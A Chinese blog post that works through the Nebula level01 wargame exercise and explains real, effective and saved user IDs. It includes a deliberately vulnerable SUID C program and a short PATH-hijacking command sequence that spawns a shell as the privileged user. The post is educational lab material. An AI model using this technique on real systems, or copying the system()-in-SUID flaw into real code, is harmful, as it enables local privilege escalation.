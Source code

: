 ```yaml
---
layout: post
title: "关于exploit exercise nebula level01"
date: 2012-10-10 23:26
comments: true
categories: linux
tags: linux security programming
---
```



今天做[exploit exercise](http://exploit-exercises.com/)的nebula [level01](http://exploit-exercises.com/nebula/level01)，长见识了，记录一下。

### 题目

题目提供了/home/flag01/下flag01的源码：

{% codeblock lang:c %}
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
    gid_t gid;
    uid_t uid;
    gid = getegid();
    uid = geteuid();

    setresgid(gid, gid, gid);
    setresuid(uid, uid, uid);

    system("/usr/bin/env echo and now what?");
}
{% endcodeblock %}

flag01的权限：

-rwsr-x--- 1 flag01 level01 7322 2011-11-20 21:22 flag01

flag01的uid是用户flag01,gid是level01,suid位被使能了

<!-- more -->

**解决方法**网上都有：

{% codeblock %}
$ export PATH=/tmp:$PATH    # 把/tmp加到环境变量PATH的最前头
$ cat "/bin/bash" >> /tmp/echo # 在/tmp创建一个echo文件，里面是执行bash
$ chmod +x /tmp/echo # 把/tmp/echo设为执行文件
$ /home/flag01/flag01 # 执行/home/flag01下的flag01

# 顺利以用户flag01起bash
$ getflag # 通关
{% endcodeblock %}


### 原理

主要原理网上的解法都说得很明白，就是通过env使得执行的echo是我们创建的假echo，成功以用户flag01的权限起bash

我想记录的主要是前面关于uid,gid的操作。

**为什么system之前会有getegid,setresgid这些操作呢？没有会怎样？这还会成功吗？**

答案是不行的！在[stackoverflow](http://stackoverflow.com/questions/8304396/what-is-vulnerable-about-this-c-code)找到解答:

{% blockquote %}
Note that the setting of real user ID, effective user ID and saved set-user-ID by a call to setresuid() before the call to system() in the vulnerable code posted in the question allows one to exploit the vulnerability even when only effective user ID is set to a privileged user ID and real user ID remains unprivileged (as is for example the case when relying on set-user-ID bit on a file as above). Without the call to setresuid() the shell run by system() would reset the effective user ID back to the real user ID making the exploit ineffective. However, in the case when the vulnerable code is run with real user ID of a privileged user, system() call alone is enough.

man page of sh:
If the shell is started with the effective user (group) id not equal to the real user (group) id, and the -p option is not supplied, no startup files are read, shell functions are not inherited from the environment, the SHELLOPTS variable, if it appears in the environment, is ignored, and the effective user id is set to the real user id. If the -p option is supplied at invocation, the startup behavior is the same, but the effective user id is not reset.
{% endblockquote %}


### real user ID, effective user ID，saved set-user-ID, set-user-ID bit

首先明确什么是real user ID, effective user ID，saved set-user-ID, set-user-ID bit

- real user ID 就是起进程的用户ID。
- effective user ID是进程的有效用户ID，决定这个进程对文件系统操作的权限。如果它是root，那这个进程的操作就是以root的权限了。
- set-user-id bit是程序的一个特征位，默认不使能，可以通过chmod +s 设置。当set-user-id被使能时，此程序叫SUID程序，程序启动时进程的effective user ID就是这个程序的uid；当set-user-id没被使能，则effective user ID是执行者real user ID。
- saved set-user-ID保存着进程启动时effective user ID的值。

因为进程内可以通过setuid等来设置effective user ID，也就改变了进程对文件系统操作的权限。但这不是可以随便设为任意的id的。

- 如果进程有管理员权限，则setuid可以把effective user ID设为任意id.
- 如果进程没有管理员权限，则setuid只能把effective user ID设为real user ID或者saved set-user-id。

这就知道saved set-user-ID有什么用了。它就是当程序是SUID程序时，effective user ID可以被设为real user ID和程序启动时的effective user ID，saved set-user-ID就是用来保存这个程序启动时effective user ID的值的，使得setuid可以把effective user ID可以从real user ID设回来。

### bash 

然后就是起bash时，如果effective user ID跟real user ID不同，且real user ID不是管理员权限用户，则会把effective user ID设回real user ID。

而我们这样如果没有setresgid,setresuid的话，real user ID是level01, effective user ID是flag01, 起bash时，effective user ID会被设回real user ID，那还只是以level01起bash，而不是flag01起bash了。


### system()的安全问题

在这里也可以看到system()是有安全问题的，因为system()里面是fork完就直接调用execl，使得继承了父进程的effective user ID的子进程执行新的程序。

APUE也说了:

{% blockquote %}
If it is running with special permissions--eithere set-user-ID or set-group-ID--and wants to spawn another process, a process should use fork() and exec() directly, being certain to change back to normal permissions after the fork(), before calling exec(). The system() function should never be used from a set-user-ID or a set-groupd-ID program.
{% endblockquote %}

意思在SUID程序中，不应该用system()，而是自己写fork()和exec()来实现，并在fork和exec中间，自己处理好id权限问题。

### 结语

之前看APUE，用户id这里看得一头雾水，通过这个exercise，总算有点感觉了。
